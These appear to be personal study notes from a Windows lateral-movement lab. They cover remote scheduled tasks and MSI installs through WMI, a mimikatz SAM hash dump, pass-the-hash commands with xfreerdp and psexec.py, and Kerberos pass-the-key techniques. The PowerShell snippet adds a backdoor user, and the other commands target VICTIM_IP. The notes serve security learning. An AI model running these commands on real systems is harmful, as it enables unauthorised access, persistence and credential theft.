- Creating scheduled Tasks Remotely with WMI: Ports: 135/5985 WinRM HTTP Administartor previlidge required
- We can create and execute scheduled tasks by using some cmdlets availabel in Windows default installation. 

```powershell
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```
- Installing MSI packages through WMI. Ports: 135/5985 Administartor previlidge required
- The goal is to installl a msi package remotely after somehow copying to the target system. (To research: How to copy msi package to target system silently)

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```
- Note: When using local account to connect to a server, the authentication process doesn't go through the DC. It only does when using domain account. 
- Using alternative authentication
- Pass-the-hash: If we managed to get the hash by extracting it from a target, we can authenticate with it if the DC is configured to use NTLM authentication (how to know if the DC is configured to use NTLM hash)
```cmd
mimikatz # lsadump::sam   
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 145e02c50333951f71d13c245d352b50
```
- You can use xfreerdp pr psexec.py to execute commands with the obtained hashes. 
- `xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH`
- `psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP`
- Kerberos Authentication: 
 	1 users sends his username + encrypted timestamp + part of the password to the KDC. 
 	2 KDC create TGT + Session Key. 
 	3 TGT is encyrpted using the krbtgt account's password hash. 
 	4 Users can use TGT to request TGS. 
 	 - user sends username + timestamp encrypted + Session key + TGT + SPN. SPN indicates the servcices and and server we tend to access. 
 	5 KDC sends TGS + Service Session Key to authenticate to the service. TGS is encrypted using the Services Owner Hash. 
 	- The Service Owner is the user or machine account under which the service runs. The TGS contains a copty of the Service Session Key encrypted so the onwer can access it by decerypting the TGS
 	- The service will use its configured account's password hash to decrypt the TGS and validate the Service Session Key
- Extracting TGTs require admin privs but to extract TGS we only need low-privileged account. 
- Injecting tickets in our own session doesn't require administrator privileges. After this, the tickets will be available for any tools we use for lateral movement. To check if the tickets were correctly injected, you can use the klist command:
- Overpass-the-hash / pass-the-key
- When asking for TGT, timestamp is encrypted with key derived from the password using algo: AC4, AES128 or AES256. If we have that key we can ask the KDC for a TGT without requiring the actual password, hence the name Pass-The-Key. 
- If RC4 is used the NTLM hash can be used as the key to request TGT: Overpass-the-Hash. 
- We can also abuse Shares with executables or scripts. 
